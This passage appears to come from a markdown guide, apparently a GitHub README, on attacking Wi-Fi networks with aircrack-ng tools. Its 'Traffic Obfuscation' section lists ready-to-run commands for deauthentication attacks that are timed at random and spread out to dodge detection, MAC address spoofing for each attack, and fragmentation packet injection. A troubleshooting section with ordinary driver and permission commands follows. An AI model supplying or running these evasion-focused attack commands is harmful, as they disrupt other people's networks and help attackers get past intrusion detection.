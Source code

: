### **Traffic Obfuscation**

**Timing Manipulation**:
```bash
# Random delays
aireplay-ng -0 5 -a 00:11:22:33:44:55 --delay $((RANDOM % 1000)) wlan0mon

# Spread attacks over time
for i in {1..10}; do
    aireplay-ng -0 1 -a 00:11:22:33:44:55 wlan0mon
    sleep $((RANDOM % 30))
done
```

**MAC Address Randomization**:
```bash
# Change MAC before starting
macchanger -r wlan0mon

# Use different MAC for each attack
macchanger -m 00:11:22:33:44:$(printf '%02x' $((RANDOM % 256))) wlan0mon
```

**Packet Fragmentation**:
```bash
# Fragment injection packets
aireplay-ng -4 -f 1500 -b 00:11:22:33:44:55 wlan0mon

# Custom fragment sizes
aireplay-ng -4 -f 576 -b 00:11:22:33:44:55 wlan0mon
```

---

## 🔍 Troubleshooting Guide

### **Interface Issues**

**Driver Problems**:
```bash
# Check driver status
lsmod | grep -i wireless

# Reload driver
modprobe -r rtl8812au
modprobe rtl8812au

# Check dmesg for errors
dmesg | grep -i wireless
```

**Permission Issues**:
```bash
# Add user to appropriate groups
sudo usermod -a -G netdev $USER

# Check interface permissions
ls -la /sys/class/net/wlan0mon/

# Use sudo for root privileges
sudo airmon-ng start wlan0
```
